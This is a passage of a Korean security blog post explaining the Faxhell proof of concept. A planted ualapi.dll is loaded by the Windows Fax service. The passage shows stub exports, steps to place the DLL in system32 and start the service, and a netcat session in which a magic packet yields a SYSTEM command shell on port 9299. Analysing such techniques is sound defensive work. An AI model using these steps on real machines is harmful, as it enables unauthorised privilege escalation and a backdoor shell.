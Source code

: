 해당 소스를 확인해보면, ualapi.dll을 로드하고 세 함수(UalInstrument, UalStart, UalStart)를 순서대로 호출한다.

Faxhell 코드의 경우 UalStart에서 권한 상승 코드를 실행하며, UalStop, UalInstrument의 경우 0을 리턴하도록 하였다.

```cpp
__declspec(dllexport)
HRESULT
UalStop(PVOID Blob)
{
    UNREFERENCED_PARAMETER(Blob);
    return ERROR_SUCCESS;
}

__declspec(dllexport)
HRESULT
UalInstrument(PVOID Blob)
{
    UNREFERENCED_PARAMETER(Blob);
    return ERROR_SUCCESS;
}
```

## 2. PoC 실행

- 테스트 환경

> Windows 10 1709 (16299.15)

1. faxhell 코드를 빌드 한 후 테스트 환경의 "C:\windows\system32" 경로로 옮긴다.
2. fax 서비스를 실행한다. (User 권한)

![6](https://holiam.kr\postimage\2021-05-12-faxhell\6.png)

3. 실행하면 Fax 서비스는 Start pending 상태로 유지되며 NETWORK SERVICE 권한으로 실행 된 fxssvc가 9299 포트를 오픈하고 Listen 상태로 대기중이다.

![7](https://holiam.kr\postimage\2021-05-12-faxhell\7.png)

해당 포트에 접속하여 매직 패킷을 입력하면 SYSTEM권한을 가진 CMD를 획득할 수 있다

```cpp
C:\Users\User>C:\Users\User\Desktop\nc64.exe 192.168.145.137 9299
let me in //매직 패킷
READY
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### 2.1 PoC 소스 분석

위에서 UalInstrument, UalStop 함수를 확인했으므로 UalStart 만 확인해보자.
